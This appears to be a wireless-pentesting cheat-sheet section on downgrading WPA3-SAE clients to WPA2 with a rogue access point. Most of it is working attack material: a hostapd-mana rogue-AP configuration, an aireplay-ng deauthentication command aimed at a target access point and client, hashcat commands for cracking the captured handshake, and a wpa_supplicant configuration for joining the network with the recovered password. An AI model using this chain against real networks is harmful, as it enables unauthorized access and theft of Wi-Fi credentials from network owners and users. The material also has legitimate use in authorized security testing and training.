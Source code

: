 ### **Downgrade WPA3 to WPA2**

If a network uses WPA3 SAE and has a client configured for both WPA2/WPA3, an attacker can perform a downgrade attack to force the client to connect to a rogue access point (RogueAP) using WPA2. This allows the attacker to obtain the WPA2 handshake, which can later be cracked. The attacker can identify if the access point uses SAE and PSK by checking the information in the airodump-ng ".csv" file, indicating that clients might also accept PSK.

save the below params in ‘hostapd-sae.conf‘ file to launch the Rough AP

```
interface=wlan1
driver=nl80211
hw_mode=g
channel=11
ssid=wifi-IT
mana_wpaout=hostapd-management.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```

run the below command to launch the Rough AP

```bash
hostapd-mana hostapd-sae.conf
```

if the Management Frame Protection (MFP) is set to false, we ca do deauth to connect the client to rough AP to get handshake. we can find MFP in beacon frame using wireshark.

```bash
aireplay-ng wlan0mon -0 0 -a <$AP_BSSID> -c <$CLIENT_MAC>
```

Crack the password

```bash
hashcat -a 0 -m 2500 hostapd-management.hccapx <$PASSWORD_WD_LIST> --force
```

Incase 2500 mode doesn’t work use the 22000 mode

```bash
hcxhash2cap --hccapx=hostapd-management.hccapx -c aux-management.pcap
hcxpcapngtool aux-management.pcap -o hash-management.22000
sudo hashcat -a 0 -m 22000 hash-management.22000 <$Password> --force
```

To connect to the network using wpa_supplicant. save the below param in ‘sae.conf’ file

```
network={
    ssid="$ESSID"
    psk="$PASSWORD"
    key_mgmt=WPA-PSK
}
```

```bash
wpa_supplicant -Dnl80211 -iwlan2 -c sae.conf

# Request Ip in network from DHCP
dhclient wlan2 -v
```
